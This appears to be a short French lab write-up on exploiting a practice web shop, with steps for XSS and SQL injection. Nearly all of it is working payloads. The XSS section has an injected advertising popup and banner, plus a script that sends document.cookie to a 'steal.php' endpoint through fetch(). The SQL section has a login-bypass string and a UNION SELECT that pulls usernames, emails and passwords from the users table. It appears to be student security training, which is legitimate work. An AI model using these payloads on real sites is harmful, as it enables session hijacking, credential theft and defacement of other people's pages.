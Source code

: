 # Injection XSS
## Étape 2 : Exploitation des vulnérabilités XSS pour afficher publicité

```js
// Payload 1 - Popup publicitaire :
<script>alert('🎉 PROMO EXCEPTIONNELLE ! -50% sur tous les produits ! Cliquez OK pour en profiter !');</script>

// Payload 2 - Bannière publicitaire :
<div style="position:fixed;top:0;left:0;width:100%;background:red;color:white;text-align:center;z-index:9999;padding:10px;">🔥 OFFRE LIMITÉE ! Visitez www.promo-site.com 🔥</div>
```
## Étape 3 : Exploitation des vulnérabilités XSS pour voler des cookies
```js
// Payload 2 - Envoi vers serveur malveillant :
<script>fetch('http://localhost/cookie-steal/steal.php?cookie=' + encodeURIComponent(document.cookie));</script>
```

# Injection SQL
## Étape 2: Exploitation de l’injection SQL

```text
Pour l'injection SQL au niveau du formulaire de connexion
' OR '1' = '1' --

Pour l'injection SQL au niveau du formulaire de recherche
' OR '1' = '1' GROUP BY p.id, p.name, p.description, p.price, p.image_url, p.created_at UNION SELECT u.id, u.username || ' ' || u.email as name, u.password as description, 0 as price, null as image_url, null as created_at, 0 as comment_count, 0 as avg_rating FROM users u --
```
